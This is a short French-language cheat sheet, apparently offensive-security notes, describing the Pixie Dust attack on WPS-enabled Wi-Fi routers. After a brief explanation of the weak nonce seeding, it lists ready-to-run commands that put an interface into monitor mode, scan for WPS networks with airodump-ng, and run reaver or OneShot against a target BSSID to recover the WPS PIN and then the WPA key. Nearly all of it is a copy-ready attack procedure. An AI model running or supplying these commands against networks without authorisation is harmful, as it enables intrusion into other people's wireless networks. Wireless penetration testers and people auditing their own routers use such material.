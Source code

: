 
> [!TIP]
> Consiste à deviner les nonces afin de récupérer le PIN en quelques secondes / heures. Puis récupérer la clé WPA grâce au PIN. Le tout est performé en Offline.
> 
> - `E-S1 = E-S2 = PKe or E-S1 = E-S2 = PKe + N`
> - `Due to the weak random (Unix timestamp) seed, the E-S1, E-S2, and PKe values are often identical, or incrementally different by a small value, N.`
> - `We increment through guesses of the seed values that were used to generate the PKe. This then allows us to guess the E-S1 and E-S2 values, respectively.`
> - `We are then able to retrieve the PSK1 and PSK2 values respectively.`

## 1. Passer en mode monitor

> [!WARNING]
> Important de ne pas utiliser airmon-ng du à un bug avec reaver

```shell-session
sudo iw dev wlan0 interface add mon0 type monitor
```

```shell-session
sudo ifconfig mon0 up
```

```shell-session
iwconfig
```

## 2. Scan WPS networks

Capturer le trafic et afficher les information WPS

```shell-session
sudo airodump-ng --wps --ignore-negative-one mon0
```

## 3. Pixie Dust

Reaver -K 1 ou --pixie-dust

```shell-session
sudo reaver -K 1 -vvv -b 86:FC:9F:5D:67:4E -c 1 -i mon0
```

ou avec OneShot -> https://github.com/fulvius31/OneShot

```shell-session
sudo python3 oneshot.py -b 86:FC:9F:5D:67:4E -i mon0 -K
```

Puis récupérer la clé PSK

```shell-session
sudo reaver -b 86:FC:9F:5D:67:4E -c 1 -p <PIN> -i mon0
```

```shell-session
sudo python3 /opt/OneShot/oneshot.py -b 86:FC:9F:5D:67:4E -i wlan0mon -p <PIN>
```

